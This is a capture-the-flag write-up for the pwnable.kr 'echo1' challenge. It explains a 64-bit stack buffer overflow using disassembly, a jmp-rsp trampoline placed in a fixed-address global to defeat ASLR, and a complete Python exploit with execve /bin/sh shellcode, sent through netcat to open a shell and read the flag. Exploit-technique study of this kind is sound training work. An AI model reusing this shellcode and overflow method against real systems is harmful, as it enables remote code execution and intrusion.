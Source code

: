 ```yaml
---
title: Echo1 - Pwnable.kr
date: 2017-01-19
categories: [Writeups, Pwnable.kr]
tags: ['Buffer overflow']
image:
    path: "/unsorted/pwnablekr.png"

---
```



Once we execute the program, it will ask for our name and then present
a menu from where we can choose one type of echo service. *BOF echo* is
the only one working. If we try to overflow the buffer we get a beautiful
`Segmentation fault (core dumped)` that's a good sign...

```console
$ ./echo1 
hey, what's your name? : werew

- select echo type -
- 1. : BOF echo
- 2. : FSB echo
- 3. : UAF echo
- 4. : exit
> 1
hello werew
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

goodbye werew
Segmentation fault (core dumped)
```


Let's have a closer look at what it's happening here:

```nasm
/ (fcn) sym.echo1 90                                                                                                                                                                 
|           ; var int buff @ rbp-0x20                                                                                                                                                
|           0x00400818      55             push rbp                                                                                                                                  
|           0x00400819      4889e5         mov rbp, rsp                                                                                                                              
|           0x0040081c      4883ec20       sub rsp, 0x20                                                                                                                             
|           0x00400820      488b05711820.  mov rax, qword [rip + 0x201871] ; [0x602098:8]=0x6e692e0062617472 LEA obj.o ; "rtab" @ 0x602098                                           
|           0x00400827      488b5018       mov rdx, qword [rax + 0x18] ; [0x18:8]=0x4006b0 sym._start                                                                                
|           0x0040082b      488b05661820.  mov rax, qword [rip + 0x201866] ; [0x602098:8]=0x6e692e0062617472 LEA obj.o ; "rtab" @ 0x602098                                           
|           0x00400832      4889c7         mov rdi, rax                                                                                                                              
|           0x00400835      ffd2           call rdx                    ; sym.greetings                                                                                               
|           0x00400837      488d45e0       lea rax, [rbp - buff]       ;[2]                                                                                                          
|           0x0040083b      be80000000     mov esi, 0x80                                                                                                                             
|           0x00400840      4889c7         mov rdi, rax                                                                                                                              
|           0x00400843      e84cffffff     call sym.get_input          ;[3]                                                                                                          
|           0x00400848      488d45e0       lea rax, [rbp - buff]       ;[2]                                                                                                          
|           0x0040084c      4889c7         mov rdi, rax                                                                                                                              
|           0x0040084f      e8dcfdffff     call sym.imp.puts           ;[4]                                                                                                          
|           0x00400854      488b053d1820.  mov rax, qword [rip + 0x20183d] ; [0x602098:8]=0x6e692e0062617472 LEA obj.o ; "rtab" @ 0x602098                                           
|           0x0040085b      488b5020       mov rdx, qword [rax + 0x20] ; [0x20:8]=64 ; "@" 0x00000020                                                                                
|           0x0040085f      488b05321820.  mov rax, qword [rip + 0x201832] ; [0x602098:8]=0x6e692e0062617472 LEA obj.o ; "rtab" @ 0x602098                                           
|           0x00400866      4889c7         mov rdi, rax                                                                                                                              
|           0x00400869      ffd2           call rdx                    ; sym.byebye                                                                                                  
|           0x0040086b      b800000000     mov eax, 0                                                                                                                                
|           0x00400870      c9             leave                                                                                                                                     
\           0x00400871      c3             ret
```


When we select the option 1 (echo1) the function echo1 will be called,
this last, after reserving the space on the stack for a buffer 0x20
 bytes big, will:
- Politely say 'hello'
- Read the an input 0x80 big into the buffer (!!!)
- Print the buffer to stdout
- Leave saying 'goodbye'

Bingo! This is it, we can overflow the buffer of the function `echo1` and
change the return address. In this program the stack is executable and 
we have all the space we need to put a shellcode.


There is only one problem: how the hell do we get the address of the shellcode?
As normal ASLR comes to make things more difficult :'(

Even with a nop sled guessing the address would take too much time 
(we are on 64 bits exploiting a service trough a network!).

If we check carefully the parts of the program that are not affected by
ASLR we can determine if there is any fixed-address data over which
we have control. It turns out there is one.

```nasm
|           0x00400936      b8be0b4000     mov eax, str._24s           ; "%24s" @ 0x400bbe                                                                   
|           0x0040093b      488d55e0       lea rdx, [rbp - name]       ;[2]            
|           0x0040093f      4889d6         mov rsi, rdx               
|           0x00400942      4889c7         mov rdi, rax                                                                                                                        
|           0x00400945      b800000000     mov eax, 0                                                                                                                     
|           0x0040094a      e851fdffff     call sym.imp.__isoc99_scanf ;[3]                                                                                                     
|           0x0040094f      488b05421720.  mov rax, qword [rip + 0x201742] ; [0x602098:8]=0x6e692e0062617472 LEA obj.o ; "rtab" @ 0x602098                                      
|           0x00400956      488d55e0       lea rdx, [rbp - name]       ;[2]                                                                                                    
|           0x0040095a      488b0a         mov rcx, qword [rdx]                 
|           0x0040095d      488908         mov qword [rax], rcx       
|           0x00400960      488b4a08       mov rcx, qword [rdx + 8]    ; [0x8:8]=0 LEA rdx ; rdx                                                                                     
|           0x00400964      48894808       mov qword [rax + 8], rcx                                                                                                                  
|           0x00400968      488b5210       mov rdx, qword [rdx + 0x10] ; [0x10:8]=0x1003e0002                                                                                        
|           0x0040096c      48895010       mov qword [rax + 0x10], rdx                                                                                                               
|           0x00400970      488d45e0       lea rax, [rbp - name]       ;[2]                                                                                                          
|           0x00400974      8b00           mov eax, dword [rax]                                                                                                                      
|           0x00400976      890524172000   mov dword [rip + 0x201724], eax ; [0x6020a0:4]=0x70726574 LEA obj.id ; "terp" @ 0x6020a0                                                  
|           0x0040097c      e8effcffff     call sym.imp.getchar        ;[4]                                                        
```


During the execution of the function `main`, the first 4 bytes on our name gets
copied into a global object called `id` at the address `0x6020a0`.
We can use that to set a trampoline to our shellcode, we can jump to the
address pointed by `rsp` and reach our shellcode.
[Here](https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/) there is a good resource about how can we jump into our shellcode.


Let's write the exploit:

```python
jmp = "\xff\xe4"                                    # jmp %rsp
ret_addr = "\xa0\x20\x60\x00\x00\x00\x00\x00"       # obj.id
shellcode = (                                       # From: http://shell-storm.org/shellcode/files/shellcode-603.php
    "\x48\x31\xd2"                                  # xor    %rdx, %rdx
    "\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68"      # mov  $0x68732f6e69622f2f, %rbx
    "\x48\xc1\xeb\x08"                              # shr    $0x8, %rbx
    "\x53"                                          # push   %rbx
    "\x48\x89\xe7"                                  # mov    %rsp, %rdi
    "\x50"                                          # push   %rax
    "\x57"                                          # push   %rdi
    "\x48\x89\xe6"                                  # mov    %rsp, %rsi
    "\xb0\x3b"                                      # mov    $0x3b, %al
    "\x0f\x05" )                                    # syscall


print( 
       jmp + "\x0a" +       # Name
       "1\x0a"      +       # Option
       "A"*0x28     +       # To fill the buffer until the ret addr (0x28=sizebuff+rbp)
       ret_addr     +       # Address of the trampoline
       shellcode            # The shellcode
    );
```


And try it:

```console
$ (python echo1_exploit.py ; cat - ) | nc pwnable.kr 9010
hey, what's your name? : 
- select echo type -
- 1. : BOF echo
- 2. : FSB echo
- 3. : UAF echo
- 4. : exit
> hello �
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA� `
goodbye �
ls
echo1
flag
log
super.pl
cat flag
H4d_****_***_w1th_****_ov3rfl0w
```


